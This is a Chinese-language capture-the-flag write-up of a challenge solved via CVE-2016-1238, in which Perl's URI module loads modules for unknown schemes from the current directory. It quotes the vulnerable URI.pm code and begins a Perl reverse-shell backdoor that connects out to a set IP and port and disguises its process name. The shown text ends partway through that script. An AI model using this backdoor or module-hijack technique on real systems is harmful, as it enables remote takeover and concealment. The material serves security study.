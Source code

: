 那么，现在的思路就很明确了，就是通过某种方式执行readflag来读取flag。

然后，读取了arp和tcp、udp情况，发现内网没有啥可用的信息，也没有一些常见的SSRF可攻击的服务，陷入瓶颈。

可以读取/usr/bin/GET文件，发现是一个perl脚本，怀疑perl脚本存在漏洞，可导致任意命令执行。

比赛时就卡在了这，没做出来。赛后，看了Orange的题解，思路是对的。

> Idea
>
> - [CVE-2016-1238](https://perl5.git.perl.org/perl.git/commit/cee96d52c39b1e7b36e1c62d38bcd8d86e9a41ab) (But the latest version of Ubuntu 17.04 in AWS is still vulnerable)
> - Perl lookup current directory in module importing
> - Perl module [URI/lib/URI.pm#L136](https://github.com/libwww-perl/URI/blob/b7680860f323a0cf3ffe5f6bdb684646e1ecac33/lib/URI.pm#L136) will `eval` if there is a unknown scheme

题目的考点就是CVE-2016-1238.在URI/lib/URi.pm 136行，有一个`eval "require $ic";`语句，当解析遇到一个未定义的协议时，会require这个未知协议。而require的时候，perl脚本会自动搜索当下目录和perl库目录来导入以.pm结尾的模块。

漏洞代码如下：

```perl
    $ic = "URI::$scheme";  # default location
    # turn scheme into a valid perl identifier by a simple transformation...
    $ic =~ s/\+/_P/g;
    $ic =~ s/\./_O/g;
    $ic =~ s/\-/_/g;
    no strict 'refs';
    # check we actually have one for the scheme:
    unless (@{"${ic}::ISA"}) {
        if (not exists $require_attempted{$ic}) {
            # Try to load it
            my $_old_error = $@;
            eval "require $ic";
            die $@ if $@ && $@ !~ /Can\'t locate.*in \@INC/;
            $@ = $_old_error;
        }
        return undef unless @{"${ic}::ISA"};
    }
```



所以，我们先找一个perl的后门：

```perl
#!/usr/bin/perl -w
# perl-reverse-shell - A Reverse Shell implementation in PERL
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '127.0.0.1';
my $port = 1234;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
```